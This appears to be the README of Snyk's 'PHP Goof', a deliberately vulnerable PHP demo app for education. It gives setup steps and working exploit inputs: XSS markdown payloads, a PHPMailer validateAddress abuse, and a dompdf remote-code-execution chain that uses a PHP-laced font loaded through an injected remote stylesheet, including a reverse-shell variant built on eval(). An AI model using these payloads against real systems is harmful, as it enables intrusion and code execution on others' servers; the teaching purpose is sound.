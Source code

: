 # PHP Goof - Snyk's vulnerable demo php app

A vulnerable PHP demo todo application that is for demonstration and education purposes only, i take no responsibility for this being used with malicious intent nor should this be used for malicious intent (or be run in any product environment).

test12345678
 
![PHP Goof](/images/screenshot.png)
  
## Requisites & Running 

- PHP 7.4+
- Mysql or MariaDB 
- Composer 2

Run composer install from the project root directory1

Create mysql or mariaDB database and update the db.php file, with database detatetsils. 

Import sql/database.sql file into the newly created database or run the following table create.

```
CREATE TABLE `task` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `title` varchar(255) NOT NULL,
  `created_at` timestamp NOT NULL DEFAULT current_timestamp(),
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=76 DEFAULT CHARSET=utf8mb3;
```

Finally, Using the PHP built in server run the code from the root app directory

```
php -S localhost:8000
```

## Exploiting the vulnerabilities

### Commonmark XSS Vulnerability

[SNYK-PHP-LEAGUECOMMONMARK-174004](https://security.snyk.io/vuln/SNYK-PHP-LEAGUECOMMONMARK-174004)

```
* Markdown link
This is **markdown**

* Markdown link
[Snyk](https://snyk.io/)

* Failed XSS
[Gotcha](javascript:alert(1))

* Failed XSS despite URL encoding
[Gotcha](javascript&#58;alert(1&#41;)

* Successfull XSS using vuln and browser interpretation 
[Gotcha](javascript&amp;colon;alert%28&#039;Gotcha&#039;%29)
```

### PHPMailer 

[SNYK-PHP-PHPMAILERPHPMAILER-1311001](https://security.snyk.io/vuln/SNYK-PHP-PHPMAILERPHPMAILER-1311001)

Uses the `validateAddress()` exploit from PHPMailer 6.4.1 to execute the global `PHP()` function by default. If no argument is passed into the `validateAddress()` function, which isnt in this demo, PHPMailer sets "PHP" as the default value and runs it if its available in the scope. 

To run click the email icon next to a line entry to send an email reminder. 

Note: No emails will actually send or are being stored, only validating the email address entered into the input using the PHPMailer library. 


### dompdf remote code execution 

[SNYK-PHP-DOMPDFDOMPDF-2428942](https://security.snyk.io/vuln/SNYK-PHP-DOMPDFDOMPDF-2428942)

[Read more about this Vulnerability](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)

This vulnerability is using dompdf library version 1.2.0 and allows for remote code execution on the target application. In this app there is a custom font called gotcha-normal.otf which has `<?php phpinfo(); ?>` loaded into the copyright font meta. 

The font file is then referenced as a `font-family` in the CSS file `gotcha.css` which is then injected into the dompdf html output via a stylesheet link. 

Dompdf loads the style sheet and saves the custom font type to the dompdf font cache (and as part of the framework). This can then be remotely executed. 

*** Note: in the CSS font-family, the font name needs to match the actual font name or this will not work. 

To use this in this app, load the below code into a todo item and click pdf on its line entry, chicken and egg note that you will need to refresh the PDF with the file examples below so that the link generates into the pdf to click. 

```
<link rel=stylesheet href='https://raw.githubusercontent.com/snyk-labs/php-goof/main/exploits/gotcha.css'>
```
Additional, added an example that uses a reverse shell by using a php `eval()` in a font file leveraging the RCE exploit. This works the same as above but using the below CSS. To use it simply load any get variable into the url when the gotcha link is created in the pdf, example `...?test=phpinfo();`. Regular $_GET references didnt work but `reset()` did which will pick up the first in the $ array and run it in `eval()`.

Note this uses a different font file and family in the exploit folder.

```
<link rel=stylesheet href='https://raw.githubusercontent.com/snyk-labs/php-goof/main/exploits/rshell.css'>
```
